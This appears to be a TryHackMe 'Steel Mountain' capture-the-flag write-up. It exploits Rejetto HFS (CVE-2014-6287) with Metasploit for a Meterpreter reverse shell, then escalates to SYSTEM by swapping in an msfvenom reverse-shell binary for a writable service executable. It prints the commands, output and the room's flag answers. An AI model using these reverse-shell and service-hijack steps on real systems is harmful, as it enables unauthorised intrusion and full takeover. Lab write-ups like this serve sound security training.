



## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gain Access](#gain-access)
4. [Privilege Escalation](#privilege-escalation)
5. [Conclusion](#conclusion)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Conducting an `nmap` scan, we find the following information:
```shell-session
$ sudo nmap -sS -vv --top-ports 2000 -oN nmap_scan.txt -Pn TARGET_IP
PORT      STATE SERVICE       REASON
80/tcp    open  http          syn-ack ttl 127
135/tcp   open  msrpc         syn-ack ttl 127
139/tcp   open  netbios-ssn   syn-ack ttl 127
445/tcp   open  microsoft-ds  syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127
8080/tcp  open  http-proxy    syn-ack ttl 127
49152/tcp open  unknown       syn-ack ttl 127
49153/tcp open  unknown       syn-ack ttl 127
49154/tcp open  unknown       syn-ack ttl 127
49155/tcp open  unknown       syn-ack ttl 127
49156/tcp open  unknown       syn-ack ttl 127
```

There's a http wen serber running on port 80 and a proxy running on 8080. Using a browser to visit the web page on port 80, we see a simple page with a picture of the employee of the month. Inspecting the web page, we can see that the image's source is: `/img/BillHarper.png`. This gives us the answer to the first question asked in the room:

> Who is the employee of the month?
>
> Answer: Bill Harper

From the `nmap` scans, we also have the answer for the next task:

> Scan the machine with nmap. What is the other port running a web server on?
>
> Answer: 8080
 
If we try and visit the page: `http://TARGET_IP:8080/` using the browser, we're greeted with the following:


If we try to login and cancel, we're redirected to the following web page, which can then be followed by clicking on the `HttpFileServer 2.3` link, taking us to the HFS server's documentation page:




Observe the URL is: `https://www.rejetto.com/hfs`. Putting it all together, we get the answer to the next question in the room:

> Take a look at the other web server. What file server is running?
>
> Answer: Rejetto HTTP File Server
 
A quick search for exploits gives us some possible options for gaining access: 
```shell-session
$ searchsploit rejetto http file server
----------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                         |  Path
----------------------------------------------------------------------- ---------------------------------
Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit) | windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 1.5/2.x - Multiple Vulnerabilities      | windows/remote/31056.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload         | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)    | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)    | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Executi | windows/webapps/34852.txt
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)            | windows/webapps/49125.py
----------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

For this task, we can use the last exploit on the list. Using `searchsploit` we can get the full path to the exploit and see what the corresponding CVE number for this exploit is:
```shell-session
$ searchsploit -p windows/webapps/49125.py
  Exploit: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
      URL: https://www.exploit-db.com/exploits/49125
     Path: /usr/share/exploitdb/exploits/windows/webapps/49125.py
File Type: Python script, Unicode text, UTF-8 text executable

Copied EDB-ID #49125's path to the clipboard

$ head /usr/share/exploitdb/exploits/windows/webapps/49125.py
# Exploit Title: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 28-11-2020
# Remote: Yes
# Exploit Author: Óscar Andreu
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
```

> What is the CVE number to exploit this file server?
>
> Answer: `2014-6287`

## Gaining Access

Using metasploit to gain initial access:
```shell-session
$ sudo msfconsole -q
msf6 > use exploit/windows/http/rejetto_hfs_exec 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS TARGET_IP 
RHOSTS => TARGET_IP
msf6 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080

msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on ATTACKER_IP:4444 
[*] Using URL: http://ATTACKER_IP:8080/jEDk49hV8EF
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /jEDk49hV8EF
[*] Sending stage (175686 bytes) to TARGET_IP
[!] Tried to delete %TEMP%\viAORyR.vbs, unknown result
[*] Meterpreter session 1 opened (ATTACKER_IP:4444 -> TARGET_IP:49244) at 2022-11-25 00:32:52 +0330
[*] Server stopped.

meterpreter > 
```

With the meterpreter session, we get the user flag:
```shell-session
meterpreter > pwd
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
meterpreter > cd ../../../../../../../
meterpreter > pwd
C:\Users\bill

meterpreter > ls Desktop\\
Listing: Desktop\
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-09-27 14:37:07 +0330  desktop.ini
100666/rw-rw-rw-  70    fil   2019-09-27 16:12:38 +0330  user.txt

meterpreter > cd Desktop\\
meterpreter > cat user.txt 
��b04763b6fcf51fcd7c13abc7db4fd365
```

We thus have our user flag:

> Use Metasploit to get an initial shell. What is the user flag?
>
> Answer: `b04763b6fcf51fcd7c13abc7db4fd365`

## Privilege Escalation

As instructed in the room's task description, we'll need to use the [`PowerUp`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) script. Downloading the script using a simple `wget` command:
```shell-session
$ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```

We can upload this script using our meterpreter session and then execute it:
```shell-session
meterpreter > upload PowerUp.ps1
...

meterpreter > load powershell
Loading extension powershell...Success.

meterpreter > powershell_shell 
PS > whoami
steelmountain\bill

PS > . .\PowerUp.ps1
PS > Invoke-AllChecks


ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AWSLiteAgent
Path           : C:\Program Files\Amazon\XenTools\LiteAgent.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AWSLiteAgent' -Path <HijackPath>
CanRestart     : False
Name           : AWSLiteAgent
Check          : Unquoted Service Paths

ServiceName    : AWSLiteAgent
Path           : C:\Program Files\Amazon\XenTools\LiteAgent.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AWSLiteAgent' -Path <HijackPath>
CanRestart     : False
Name           : AWSLiteAgent
Check          : Unquoted Service Paths

ServiceName    : IObitUnSvr
Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'IObitUnSvr' -Path <HijackPath>
CanRestart     : False
Name           : IObitUnSvr
Check          : Unquoted Service Paths

ServiceName    : IObitUnSvr
Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'IObitUnSvr' -Path <HijackPath>
CanRestart     : False
Name           : IObitUnSvr
Check          : Unquoted Service Paths

ServiceName    : IObitUnSvr
Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'IObitUnSvr' -Path <HijackPath>
CanRestart     : False
Name           : IObitUnSvr
Check          : Unquoted Service Paths

ServiceName    : IObitUnSvr
Path           : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'IObitUnSvr' -Path <HijackPath>
CanRestart     : False
Name           : IObitUnSvr
Check          : Unquoted Service Paths

ServiceName    : LiveUpdateSvc
Path           : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'LiveUpdateSvc' -Path <HijackPath>
CanRestart     : False
Name           : LiveUpdateSvc
Check          : Unquoted Service Paths

ServiceName    : LiveUpdateSvc
Path           : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'LiveUpdateSvc' -Path <HijackPath>
CanRestart     : False
Name           : LiveUpdateSvc
Check          : Unquoted Service Paths

ServiceName    : LiveUpdateSvc
Path           : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'LiveUpdateSvc' -Path <HijackPath>
CanRestart     : False
Name           : LiveUpdateSvc
Check          : Unquoted Service Paths

ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files

ServiceName                     : IObitUnSvr
Path                            : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'IObitUnSvr'
CanRestart                      : False
Name                            : IObitUnSvr
Check                           : Modifiable Service Files

ServiceName                     : LiveUpdateSvc
Path                            : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'LiveUpdateSvc'
CanRestart                      : False
Name                            : LiveUpdateSvc
Check                           : Modifiable Service Files
```

The `CanRestart` option is set to true for the `AdvancedSystemCareService9` service. Moreover, the service has a `unquoted service path` vulnerability. 

> Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?
>
> Answer: `AdvancedSystemCareService9`

The `CanRestart` option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program.

We can generate a reverse shell payload using `msfvenom` and upload it to the server.

***NOTE***: Press `Ctrl+C` to terminate the loaded powershell session and get back to the meterpreter session. 

```shell-session
$ msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe

# In the meterpreter session:
meterpreter > shell
Process 100 created.
Channel 9 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\bill\Desktop> sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\Users\bill\Desktop>^C
Terminate channel 9? [y/N]  y
meterpreter > upload ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"

meterpreter > shell
...
C:\Users\bill\Desktop>sc start AdvancedSystemCareService9
...
...

# To our listener:
$ nc -nvlp 4443      
...
...
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32>cd C:\\Users\\Administrator\\Desktop
C:\Users\Administrator\Desktop>type root.txt 
9af5f314f57607c00fd09803a587db80
```

We finally have the root flag!

> What is the root flag?
>
> Answer: `9af5f314f57607c00fd09803a587db80`

## Conclusion

I hope this writeup was useful. If you like it, please consider following me on [github](https://github.com/NovusEdge) and dropping a star on the [repo](https://github.com/NovusEdge/thm-writeups)

---

- Author: Aliasgar Khimani
- Room: [Steel Mountain](https://tryhackme.com/room/steelmountain)
